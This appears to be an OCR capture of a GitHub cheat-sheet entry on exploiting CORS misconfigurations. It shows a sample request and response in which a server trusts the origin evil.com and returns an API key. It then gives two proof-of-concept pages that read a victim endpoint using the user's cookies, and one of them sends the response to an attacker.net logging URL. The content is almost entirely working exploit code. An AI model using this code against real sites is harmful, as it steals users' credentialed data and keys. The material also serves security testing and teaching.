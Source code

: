 ```powershell
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof Of Concept

This PoC requires that the respective JS script is hosted at `evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

or 

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

